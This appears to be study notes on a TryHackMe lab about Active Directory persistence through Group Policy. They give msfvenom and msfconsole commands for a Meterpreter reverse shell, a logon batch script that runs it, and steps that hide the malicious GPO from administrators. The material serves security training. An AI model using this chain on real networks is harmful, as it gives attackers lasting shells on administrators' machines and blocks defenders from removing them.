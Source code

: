 The last persistence technique we will review is persistence through Group Policy Objects (GPOs). At this point, you should be familiar with GPOs based on all the different enumeration, attack, and exploitation techniques we have discussed. However, GPOs are also excellent for deploying persistence.

Group Policy Management in AD provides a central mechanism to manage the local policy configuration of all domain-joined machines. *This includes configuration such as membership to restricted groups, firewall and AV configuration, and which scripts should be executed upon startup*. While this is an excellent tool for management, it can be targeted by attackers to deploy persistence across the entire estate. What is even worse is that the attacker can often hide the GPO in such a way that it becomes almost impossible to remove it.

# Domain Wide Persistence
The following are some common GPO persistence techniques:
- **Restricted Group Membership** - This could allow us administrative access to all hosts in the domain
- **Logon Script Deployment** - This will ensure that we get a shell callback every time a user authenticates to a host in the domain.

Since we already used the first hook, Restricted Group Membership, in the Exploiting AD room. Let's now focus on the second hook. While having access to all hosts are nice, it can be even better by ensuring we get access to them when administrators are actively working on them. To do this, we will create a GPO that is linked to the Admins OU, which will allow us to get a shell on a host every time one of them authenticates to a host.


## Logon Script Deployment
Before we can create the GPO. We first need to create our shell, listener, and the actual bat file that will execute our shell. Let's start by generating a basic executable shell that we can use:
```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost={persistad} lport={4445} -f exe > {username}_shell.exe
```

Windows allows us to execute Batch or PowerShell scripts through the logon GPO. Batch scripts are often more stable than PowerShell scripts so lets create one that will copy our executable to the host and execute it once a user authenticates. Create the following script called `{username}_script.bat` on the AttackBox:
```
copy \\za.tryhackme.loc\sysvol\za.tryhackme.loc\scripts\{username}_shell.exe C:\tmp\{username}_shell.exe && timeout /t 20 && C:\tmp\{username}_shell.exe
```

The script executes three commands chained together with `&&`. The script will copy the binary from the SYSVOL directory to the local machine, then wait 20 seconds, before finally executing the binary.

We can use SCP and our Administrator credentials to copy both scripts to the SYSVOL directory:
```markup
$thm scp {username}_shell.exe za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/

$thm scp {username}_script.bat za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/
```

Finally, let's start our MSF listener:
```
msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST {persistad}; set LPORT {4445}; exploit"
```

With our prep now complete, we can finally create the GPO that will execute it. You will need to RDP into THMWRK1 and use a runas window running as the Administrator for the next steps.

## GPO Creation
The first step uses our Domain Admin account to open the Group Policy Management snap-in:
1. In your runas-spawned terminal, type MMC and press enter.
2. Click on **File**->**Add/Remove Snap-in...**
3. Select the **Group Policy Management** snap-in and click **Add**
4. Click **OK**

You should be able to see the GPO manager:
	![](Pasted%20image%2020241122192143.png)
While we can technically write our contents to the Default Domain Policy, which should propagate to all AD objects, we will take a more narrow approach for the task just to show the process. You can play around afterwards to apply the changes to the entire domain.

We will write a GPO that will be applied to all Admins, so right-click on the Admins OU and select Create a GPO in this domain, and Link it here. Give your GPO a name such as `{username} - persisting GPO`:
	![](Pasted%20image%2020241122192241.png)
Right-click on your policy and select *Enforced*. This will ensure that your policy will apply, even if there is a conflicting policy. This can help to ensure our GPO takes precedence, even if the blue team has written a policy that will remove our changes. Now you can right-click on your policy and select edit:
	![](Pasted%20image%2020241122192323.png)
Let's get back to our Group Policy Management Editor:  
1. Under User Configuration, expand **Policies->Windows Settings**.
2. Select **Scripts (Logon/Logoff)**.
3. Right-click on **Logon->Properties**
4. Select the **Scripts** tab.
5. Click **Add->Browse**.

Let's navigate to where we stored our Batch and binary files:
	![](Pasted%20image%2020241122192413.png)
Select your Batch file as the script and click **Open** and **OK**. Click **Apply** and **OK**. This will now ensure that every time one of the administrators (tier 2, 1, and 0) logs into any machine, we will get a callback.

In order to simulate this, let's reset the password for one of the Tier 1 administrator accounts and authenticate to a server. Use any of the techniques you've learned in the previous AD rooms to either reset the password of one of the Tier 1 administrators. Once done, remember to start your MSF multi-handler, and let's test it out by RDPing into THMSERVER1 or THMSERVER2!

Use your Tier 1 administrator credentials, RDP into one of the servers. If you give it another minute, you should get a callback on your multi-handler:
```markup
msf5 exploit(multi/handler) > run 
Started reverse TCP handler on 172.31.16.251:4445 

[*] Sending stage (176195 bytes) to 172.31.1.201 
[*] Meterpreter session 1 opened (172.31.16.251:4445 -> 172.31.1.201:63695) at 2022-05-07 10:06:28 +0100 

meterpreter >
```

**Note:** 
	You need to create a Logon event for the GPO to execute. If you just closed your RDP session, that only performs a disconnect which means it would not trigger the GPO. Make sure to select navigate to sign out as shown below in order to terminate the session. This will ensure that a Logon event is generated when you reauthenticate:

## Hiding in Plain Sight
Now that we know that our persistence is working, it is time to make sure the blue team can't simply remove our persistence. Go back to your MMC windows, click on your policy and then click on Delegation:
	![](Pasted%20image%2020241122192730.png)
By default, all administrators have the ability to edit GPOs. Let's remove these permissions
1. **Right-Click** on **ENTERPRISE DOMAIN CONTROLLERS** and select **Edit settings, delete, modify security**.
2. **Click** on all other groups (except Authenticated Users) and click **Remove**.
	![](Pasted%20image%2020241122192950.png)
Click on Advanced and remove the Created Owner from the permissions:
	![](Pasted%20image%2020241122193040.png)

By default, all authenticated Users must have the ability to read the policy. This is required because otherwise, the policy could not be read by the user's account when they authenticate to apply User policies. If we did not have our logon script, we could also remove this permission to make sure that almost no one would be able to read our Policy.